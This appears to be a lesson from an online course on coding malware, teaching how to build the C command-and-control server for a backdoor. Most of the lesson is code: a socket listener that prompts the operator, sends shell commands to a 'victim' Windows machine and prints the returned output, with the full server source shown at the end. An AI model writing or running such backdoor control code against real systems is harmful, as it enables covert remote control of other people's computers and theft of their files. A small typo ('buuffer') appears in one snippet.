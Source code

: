 ```yaml
---
title: Connecting our server with the backdoor
course: code_malware
section: "Executing shell commands"
layout: lesson
---
```


In this lesson we'll make our Server compatible with our Backdoor to stablish a
succesful connection.

In the previous lesson we started coding our Server, we accepted the connection,
created the sockets, the server address and all of its parameters and now we are
ready to create and put the program in an infinite loop which will let us to
send commands and to receive outputs. So, let's get started by creating a
while-true loop inside of the main function as it is shown below:

```c
while(1) {
}
```

The first thing that we need to do, is to code something that we already did
in the backdoor program and that's the usage of a jump checkpoint, we are going
to create it at the beginning of our loop, so we cam jump whenever we want to
that point.

```c
while(1) {
  jump:
}
```

Once the "_jump_" checkpoint is made, we need to "`bzero`" all of the variables
that we created before in our main function. Those variables are "_buffer_"
where we are going to store the command we are going to send to our backdoor and
the "_response_" variable. So right after the "_jump_" checkpoint add the
following lines:

```c
bzero(&buuffer, sizeof(buffer));
bzero(&response, sizeof(response));
```

Note that we don't need to define the "_bzero_" function in this program,
because it exists in linux C programming. If you want to run the "_Server_" in a
Windows-based environment, you'd need to define "_bzero_" once again.

The next thing we'll do, is to prompt the user of the server, to input a command
and send it to the target, for example, let's suppose we stablish a connection
with our target (a Windows 10 machine) and you want to see all of the files in
the victim's desktop folder, we would need to input somewhere the "`dir`"
command and that command will be send to the backdoor, and backdoor would
execute "`dir`" in a terminal, then it would gather the response (the output of
the entered command) sent back to the server (us) and print it to the screen.
That's the task we'll need to accomplish.

First, we are going to print a prompt, to do so, add the following line:

```c
printf("* Shell#%s~$: ", inet_ntoa(client_address.sin_addr));
```

As you can see that "_printf_" call receives two arguments, the first is what we
want to print in the screen, and the second one is the string that will replace
"%s" in our first parameter. The second parameter
(`inet_ntoa(client_address.sin_addr)`) what does is to print the IP address of
our victim.

Once we printed that, we need to wait to the user of the server to input a
command, and we need to store it somewhere. So we are going to store it in our
"_buffer_" variable, we can use the "_fgets_" function to do it.

```c
fgets(buffer, sizeof(buffer), stdin);
```

As you can see, fgets requires three parameters:

* buffer: The variable in which the input of the user will be stored
* sizeof(buffer): The size of the buffer (or the variable in which we want to
  store the input)
* stdin: Through this argument we specify the way we will get the command (input
  of the user)

Now, we need to manipulate our string to delete the "\n" character (new line)
which is added automatically sometimes and we can't send the command like that
to our client. To do so, we could use the "_strtok_" function in the following
way:

```c
strtok(buffer, "\n");
```

The _strtok_ function requires two parameters:

* buffer: The string from where we want to remove our character
* "\n": The character we want to remove from our string

Once we do that, we are ready to send the command to the target, we will use the
"_write_" function to do that. This function is like the "_send_" one, but this
is easier to use as it only requires three arguments:

```c
write(client_socket, buffer, sizeof(buffer));
```

Those three arguments are:

* client_socket: Where are we sending the values
* buffer: What we are sending to the target
* sizeof(buffer): The size of what we are sending to our target

Now, we sent the command to the target. Now we need to check for different
options about what the command was. Do you remember in the backdoor when we
checked if the "_buffer_" was equal to "q" and if it wasn't? Well, we'll do it
here too. We will use the same "technique" (using if/else statements) and the
"_strncmp_" (string compare) function.

```c
if(strncmp("q", buffer, 1) == 0) {
  break;
}
```

That previous portion of code, checks if the user has entered "q". If the user
did, the "_break_" statement will take you out of the while-true loop, and
therefore, exiting the program.

The next thing we want to do, is to check if the entered string was not "q", we
will receive the response from our target:

```c
else {
  recv(client_socket, response, sizeof(response), MSG_WAITALL);
  printf("%s", response);
}
```

If the entered string is not "q", we will receive the response from the client,
we store it in the response variable and then, we print the response to the
screen.

> The "MSG_WAITALL" flag will tell the program to block its operating until the
> entire response is received.

This is how our entire looks so far:

```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <arpa/inet.h>

int main() {
  int sock, client_socket;
  char buffer[1024];
  char response[18384];
  struct sockaddr_in server_address, client_address;
  int i = 0;
  int optval = 1;
  socklen_t client_length;

  sock = socket(AF_INET, SOCK_STREAM, 0);

  if (setsockopt(sock, SOL_SOCKET, SO_REUSEADDR, &optval, sizeof(optval)) < 0) {
    printf("Error Setting TCP Socket Options!\n");
    return 1;
  }

  server_address.sin_family = AF_INET;
  server_address.sin_addr.s_addr = inet_addr("192.168.1.6");
  server_address.sin_port = htons(50005);

  bind(sock, (struct sockaddr *) &server_address, sizeof(server_address));
  listen(sock, 5);
  client_length = sizeof(client_address);
  client_socket = accept(sock, (struct sockaddr *) &client_address, &client_length);

  while(1) {
jump:
    bzero(&buffer, sizeof(buffer));
    bzero(&response, sizeof(response));
    printf("* Shell#%s~$: ", inet_ntoa(client_address.sin_addr));
    fgets(buffer, sizeof(buffer), stdin);
    strtok(buffer, "\n");
    write(client_socket, buffer, sizeof(buffer));

    if(strncmp("q", buffer, 1) == 0) {
      break;
    } else {
      recv(client_socket, response, sizeof(response), MSG_WAITALL);
      printf("%s", response);
    }
  }
}
```

